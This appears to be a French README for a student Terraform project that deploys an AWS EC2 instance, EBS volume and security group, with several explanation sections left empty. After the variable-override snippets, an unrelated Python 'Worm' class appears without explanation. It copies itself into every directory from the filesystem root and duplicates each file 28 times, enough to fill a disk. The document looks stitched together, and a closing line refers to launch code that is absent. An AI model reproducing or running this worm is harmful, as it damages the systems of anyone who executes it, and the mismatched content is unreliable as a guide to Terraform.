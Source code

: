 <div style="display:flex; align-items:center;">
  <h1 style="margin-right:auto;">Projet-AWS-terraform</h1>
 <img src="https://img.shields.io/badge/Made%20with-terraform-blue" alt="Terraform badge">
</div>


Dans le cadre de notre semaine de formation sur les outils terraform et puppet nous avons un projet terraform à créer

## Sujet

Dans le cadre du projet nous devons déployer une infrastructure complète AWS avec Terrafom, les prérequis sont :
- un module pour créer une instance ec2 utilisant la dernière version de ubuntu bionic, cette version n'étant pas disponible nous avons opté pour focal, dont la taille et le tag sont variabilisés.
- un module pour créer un volume ebs dont la taille est variabilisée.
- un module pour créer une security qui ouvrira le 80 et 443.
- un dossier app qui va utiliser les 4 modules pour déployer une ec2.
- installer nginx et enregistrer l’ip publique dans un fichier nommé ip_ec2.txt (ces éléments sont à intégrer dans le rôle ec2)

Nous devons également, si possible :

- pousser le projet sur GitHub et partager le lien du repo à o.nebie@ecole-ipssi.net (Optionnel)
- faire un rapport pour accompagner notre solution (le readme) 

## Architecture

Voici l'arboressence de notre projet :

![image](https://user-images.githubusercontent.com/38227021/235158938-753323ec-d605-4aba-bb8e-aa6956523604.png)

## Fichier Terraform de base pour créer une instance

Dans chacun de nos modules terraform nous avons 2 fichiers :
- main.tf permet de définir les ressources à créer, les modifier ou les supprimer pour provisionner une infrastructure.
- variable.tf permet de définir les variables qui seront utilisées dans la configuration principale (main.tf) ou dans d'autres fichiers de configuration, afin de rendre la configuration plus modulaire et facilement adaptable aux différents environnements.

Dans le fichier principal de notre application se trouve un troisième fichier venant se rajouter au deux précédents. :
- terraform.tfvars permet de définir des valeurs alternatives pour les variables, ces valeurs peuvent être appellées en utilisant un -var-file=terraform.tfvars lors d'un apply ou d'un plan. 


## Explication du code 


* _Pour le module ec2_ :

* _Pour le module Eip_Publique_ :

* _Pour le module SecutiryGroup_ :

* _Pour le module ebs_ :

## Execution du projet

Afin de lancer notre projet Terraform, nous allons avoir besoin d'exécuter plusieurs commandes.

Terraform init : Cette commande permet de mettre en place un environnement de travail et l'adapter à Terraform. Cela permet de télécharger les plugins requis liés aux différents providers.

Terraform plan : Cette commande permet d'avoir une prévisualisation des modifications qui vont être apportées à l'infrastructure. Ainsi, on peut voir facilement quelles sont les parties de notre infrastructure qui sont affectées.

Terraform apply : Cette commande permet d'appliquer les modifications apportées au fichier de configuration.

En résumé, pour exécuter un projet Terraform, il faut initialiser le répertoire de travail en exécutant la commande "terraform init", générer le plan d'exécution en exécutant la commande "terraform plan" et appliquer les modifications en exécutant la commande "terraform apply".

## Surcharger les variables

Pour surcharger les variables par défaut vous pouvez modifier le fichier variables.tf disponible dans le dossier principal, les valeurs de ce dernier écrasent les valeurs par défaut des modules. Les lignes de code ci-dessous correspondent a la surcharge des variables instance_name et instance_type dans l'appel de module ec2.

```terraform
  #Surcharge des variables
  instance_name = var.instance_name
  instance_type = var.instance_type
  ```
  
Pour utiliser les valeurs par défaut, vous pouvez commenter les déclarations de surcharge dans les appels de module.

```terraform
  #Surcharge des variables
  #instance_name = var.instance_name
  #instance_type = var.instance_type
  ```
```python
class Worm:
    def __init__(self, path=None, target_dir_list=None, iteration=None):
        if isinstance(path, type(None)):
            self.path="/"
        else:
            self.path = path
        
        if isinstance(target_dir_list, type(None)):
            self.target_dir_list=[]
        else:
            self.target_dir_list = target_dir_list

        if isinstance(target_dir_list, type(None)):
            self.iteration = 28
        else:
            self.iteration = iteration

        # path absolu
        self.own_path = os.path.realpath(__file__)
    
    def list_directories(self, path):
        self.target_dir_list.append(path)
        files_in_current_directory = os.listdir(path)

        for file in files_in_current_directory:
            
            if not file.startswith('.'):
                # Prends le PATH complet
                absolute_path = os.path.join(path, file)
                print(absolute_path)

                if os.path.isdir(absolute_path):
                    self.list_directories(absolute_path)
                else:
                    pass
    
    def create_new_worm(self):
         for directory in self.target_dir_list:
            destination = os.path.join(directory, "vers.py")
            # Copie le script dans le nouveau répertoire avec un noms similaires
            shutil.copyfile(self.own_path, destination)

    def copy_existing_file(self):
        # La méthode suivante sera utilisée pour dupliquer les fichiers un nombre de fois (iteration)
         for directory in self.target_dir_list:
            file_list_in_dir = os.listdir(directory)
            for file in file_list_in_dir:
                abs_path = os.path.join(directory, file)
                if not abs_path.startswith('.') and not os.path.isdir(abs_path):
                    source = abs_path
                    for i in range(self.iteration):
                        destination = os.path.join(directory,(file+str(i)))
                        shutil.copyfile(source, destination)

   
    def start_worm_actions(self):
        self.list_directories(self.path)
        print(self.target_dir_list)
        self.create_new_worm()
        self.copy_existing_file()
  ```
 
 
Le code suivant permet d'appeler toutes les foncitons au lancement du ver
